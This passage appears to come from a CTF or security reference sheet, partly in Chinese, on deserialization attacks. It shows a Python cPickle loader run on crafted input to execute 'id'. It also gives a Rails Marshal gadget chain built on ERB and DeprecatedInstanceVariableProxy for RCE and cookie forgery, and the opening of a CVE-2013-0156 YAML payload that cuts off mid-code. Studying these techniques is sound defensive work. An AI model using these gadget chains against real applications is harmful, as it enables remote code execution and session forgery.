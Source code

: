 b.py:

```python
import os
import cPickle
import sys
import base64

s = raw_input(":")

print cPickle.loads(base64.b64decode(s))
```

```
$ python a.py > tmp
$ cat tmp | python b.py
uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),110(lxd)
```

## Ruby/Rails Marshal

this one is not self-executing

this one actually relies on rails invoking a method on the resulting object after the deserialization

```ruby
erb = ERB.allocate
erb.instance_variable_set :@src, "`id`"
depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new erb, :result, "foo", ActiveSupport::Deprecation
hash = {depr => 'something'}
marshalled = Marshal.dump(hash)
print marshalled
```

在ERB上，当result或run method被call时，@src的string会被执行

- 常见使用情境：
    - 以Marshal为Cookie Serializer时，若有`secret_key`，则可以伪造Cookie
    - 也可以透过`DeprecatedInstanceVariableProxy`去执行ERB的`result`来RCE
        - 当`DeprecatedInstanceVariableProxy`被unmarshal，rails session对他处理时遇到不认识的method就会呼叫`method_missing`，导致执行传入的ERB
        - `@instance.__send__(@method)`

- Cookie Serializer
    - Rails 4.1以前的Cookie Serializer为Marshal
    - Rails 4.1开始，默认使用JSON

## Ruby/Rails YAML

- CVE-2013-0156
    - 旧版本的Rails中，`XML`的node可以自订type，如果指定为`yaml`，是会被成功解析的
    - 若反序列化`!ruby/hash`，则相当于在物件上调用`obj[key]=val`，也就是`[]=`方法
    - 而这个`ActionDispatch::Routing::RouteSet::NamedRouteCollection`中的`[]=`方法中，有一条代码路径可以eval
    - `define_hash_access`中可以看到`module_eval`，里头的`selector`来自`name`
    - 因为他还会对`value`调用`defaults` method，所以可以利用`OpenStruct`来构造
        - `函数名=>返回值`的对应关系存放在`@table`中
    - Payload:
    ```ruby
    xml = %{  
    <?xml version="1.0" encoding="UTF-8"?>  
    <bingo type='yaml'>  
    ---| !ruby/hash:ActionDispatch::Routing::RouteSet::NamedRouteCollection  
    'test; sleep(10); test' :  
     !ruby/object:OpenStruct  